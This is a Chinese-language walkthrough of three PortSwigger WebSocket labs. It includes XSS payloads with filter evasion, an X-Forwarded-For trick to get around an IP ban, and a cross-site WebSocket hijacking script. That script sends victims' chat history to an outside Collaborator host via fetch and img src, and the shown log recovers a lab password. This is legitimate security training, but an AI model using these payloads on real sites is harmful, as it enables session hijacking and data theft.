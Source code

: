 # WebSockets

## [Lab: Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
### 題目敘述
 This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 
### 題目解釋
練習用 Burp 抓 Websockets

### 解答
用 Burp 抓包後，上面有一個 Websockets history

把資料丟到 Repeater 之後改輸入 

```
{"user":"You","content":" <img src=1 onerror='alert(1)'>"}
```


## [Lab: Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
### 題目敘述
 This online shop has a live chat feature implemented using WebSockets.

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 
### 題目解釋
IP 被 Ban 可以改 `X-Forwarded-For`


### 解答
把 `X-Forwarded-For` 改掉後，送

```
{"user":"You","content":"<img src=1 oNeRrOr=alert`1`>"}
```

## [Lab: Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
### 題目敘述
 This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

### 題目解釋
用 CSRF 的方法來偷資料，需要自己寫 JS

### 解答
觀察只送 READY 到 Server，Server 就會吐一堆東西回來

接下來來練習寫 Socket 的 js

可以參考[這邊](https://developer.mozilla.org/zh-TW/docs/Web/API/WebSockets_API/Writing_WebSocket_client_applications)，或是原始題目的 js 檔案


自己隨便寫一下，只要連上就會噴 READY，然後把收到的東西 console.log 吐出來，在本地測
```html
<script>
    var mySocket = new WebSocket("wss://acef1f681ef2dfc8c0f24599001000f5.web-security-academy.net/chat");
    mySocket.onopen = function (evt) {
        mySocket.send("READY")
    }
    mySocket.onmessage = function (evt) {
        var message = evt.data;
        console.log(message);
    };
</script>
```

接下來要試著把東西傳出去

```html
<script>
    var mySocket = new WebSocket("wss://acef1f681ef2dfc8c0f24599001000f5.web-security-academy.net/chat");
    mySocket.onopen = function (evt) {
        mySocket.send("READY")
    }
    mySocket.onmessage = function (evt) {
        var message = evt.data;
        fetch("http://127.0.0.1:9453/?data="+btoa(message));
    };
</script>
```

本地開一個 `python3 -m http.server 9453`

可以順利收到
```
python3 -m http.server 9453
Serving HTTP on 0.0.0.0 port 9453 (http://0.0.0.0:9453/) ...
127.0.0.1 - - [08/Feb/2022 05:16:35] "GET /?data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IjEyMyJ9 HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:35] "GET /?data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ikkgc3dlYXIsIHlvdXIgY2hpbGRyZW4gYXJlIHNtYXJ0ZXIgdGhhbiB5b3UifQ== HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:35] "GET /?data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IjEyMzMzIn0= HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:35] "GET /?data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IllvdSZhcG9zO3JlIGdvaW5nIHRvIGxvc2UgeW91ciB2b2ljZSBhc2tpbmcgbWUgc2lsbHkgcXVlc3Rpb25zLiJ9 HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:35] "GET /?data=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:51] "GET /?data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IjEyMyJ9 HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:51] "GET /?data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ikkgc3dlYXIsIHlvdXIgY2hpbGRyZW4gYXJlIHNtYXJ0ZXIgdGhhbiB5b3UifQ== HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:51] "GET /?data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IjEyMzMzIn0= HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:51] "GET /?data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IllvdSZhcG9zO3JlIGdvaW5nIHRvIGxvc2UgeW91ciB2b2ljZSBhc2tpbmcgbWUgc2lsbHkgcXVlc3Rpb25zLiJ9 HTTP/1.1" 200 -
127.0.0.1 - - [08/Feb/2022 05:16:51] "GET /?data=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 -
```


接下來改用 Burp 的 Collaborator client


```html
<script>
    var mySocket = new WebSocket("wss://acef1f681ef2dfc8c0f24599001000f5.web-security-academy.net/chat");
    mySocket.onopen = function (evt) {
        mySocket.send("READY")
    }
    mySocket.onmessage = function (evt) {
        var message = evt.data;
        // fetch("http://127.0.0.1:9453/?data="+btoa(message));
        fetch("http://bjyehipobfcu6padzo785h4pug07ow.burpcollaborator.net/?data="+btoa(message));
    };
</script>

```

本地測試 OK，丟到 Exploit Server 上

發現了一些 CORS 之類的問題，最後修改，可以用 img src 來繞

```html
<script>
    var mySocket = new WebSocket("wss://acef1f681ef2dfc8c0f24599001000f5.web-security-academy.net/chat");
    mySocket.onopen = function (evt) {
        mySocket.send("READY")
    }
    mySocket.onmessage = function (evt) {
        var message = evt.data;
        document.body.innerHTML = "<img src='https://bjyehipobfcu6padzo785h4pug07ow.burpcollaborator.net/?data="+btoa(message)+"'>"
</script>

<body>
    meow
</body>
```

最後順利收到訊息

```
GET /?data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3Mga3dnNDlzbTJvMWF2czZobm4xcWsifQ== HTTP/1.1

{"user":"Hal Pline","content":"No problem carlos, it&apos;s kwg49sm2o1avs6hnn1qk"}
```

使用帳密登入 `carlos` / `kwg49sm2o1avs6hnn1qk` 即可過關